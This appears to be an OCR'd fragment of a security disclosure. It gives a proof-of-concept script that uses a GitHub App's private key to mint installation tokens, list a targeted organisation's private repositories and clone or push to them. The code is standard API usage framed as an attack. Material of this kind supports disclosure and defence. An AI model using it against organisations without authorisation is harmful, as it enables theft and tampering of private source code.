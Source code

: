 ```bash
INSTALL_ID=12345678
curl -sS -X POST \
  -H "Authorization: Bearer $JWT" \
  -H "Accept: application/vnd.github+json" \
  -H "X-GitHub-Api-Version: 2022-11-28" \
  https://api.github.com/app/installations/$INSTALL_ID/access_tokens
```

Use the token to access code. You can clone or push using the x‑access‑token URL form:

```bash
TOKEN=ghs_...
REPO=owner/name
 git clone https://x-access-token:${TOKEN}@github.com/${REPO}.git
# push works if the app has contents:write on that repository
```

Programmatic PoC to target a specific org and list private repos (PyGithub + PyJWT):

```python
#!/usr/bin/env python3
import time, jwt, requests
from github import Auth, GithubIntegration

with open("priv.pem", "r") as f:
    signing_key = f.read()

APP_ID = "123456"  # GitHub App ID (numeric)
ORG    = "someorg"

def gen_jwt():
    now = int(time.time())
    payload = {"iat": now-60, "exp": now+540, "iss": APP_ID}
    return jwt.encode(payload, signing_key, algorithm="RS256")

auth = Auth.AppAuth(APP_ID, signing_key)
GI = GithubIntegration(auth=auth)
installation = GI.get_org_installation(ORG)
print(f"Installation ID: {installation.id}")

jwt_tok = gen_jwt()
r = requests.post(
    f"https://api.github.com/app/installations/{installation.id}/access_tokens",
    headers={
        "Accept": "application/vnd.github+json",
        "Authorization": f"Bearer {jwt_tok}",
        "X-GitHub-Api-Version": "2022-11-28",
    },
)
access_token = r.json()["token"]

print("--- repos ---")
for repo in installation.get_repos():
    print(f"* {repo.full_name} (private={repo.private})")
    clone_url = f"https://x-access-token:{access_token}@github.com/{repo.full_name}.git"
    print(clone_url)
```

